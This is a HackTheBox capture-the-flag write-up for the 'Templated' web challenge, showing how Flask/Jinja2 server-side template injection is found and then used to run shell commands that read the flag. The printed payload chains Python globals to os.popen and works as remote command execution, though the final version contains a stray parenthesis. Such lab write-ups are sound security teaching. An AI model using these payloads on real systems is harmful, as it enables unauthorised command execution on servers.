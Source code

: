 

# HackTheBox [LAB-challenge] (Web)
## CHALLENGE NAME : Templated

## Writeup by **`Arijit-Bhowmick`** aka **`sys41414141`**

![Challenge Details](Images/challenge_description.png)

### Challenge Description

`
Can you exploit this simple mistake?
`

## SOLUTION

Click on the `Start Instance` button to start the challenge.

The you are provided with an `web address`. Copy it and open it in another tab or browser.
In my case it was `http://46.101.92.17:31311`

### Homepage of the Webapp :

![homepage](Images/homepage.png)


The webapp shows a message 
`# Site still under construction
Proudly powered by Flask/Jinja2`.

Here we can see that it says that it is made with `Flask/Jinja2`.

#
### Searching exploits  for  `Flask/Jinja2`:

I have started searching for exploits for **Flask/Jinja2**.
Then I came across 
https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2

Here it says about the SSTI exploit.

#
### Test Exploit :

After modifying the provided url to `http://46.101.92.17:31311/{{41+41}}`

I have noticed that the returned result calculates the value.
![test_exploit](Images/test_exploit_1.png)

#
Then I came across:
![exploit_info_gather](Images/exploit_info_gather.png)


#### Creating the exploit:

I have manipulated ``{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}``
step by step.

![root_id_info](Images/root_id_info.png)

![root_directory_content](Images/root_directory_content.png)


#### EXPLOIT Code:

```
http://46.101.92.17:31311/{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt')).read()}}
```
Format:

```
<Web app address>/{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt')).read()}}
```
This is how I got the flag.

Just replace `<Web app address>` with the web address that you are provided.
In my case it was `http://46.101.92.17:31311`

![exploit](Images/exploit.png)
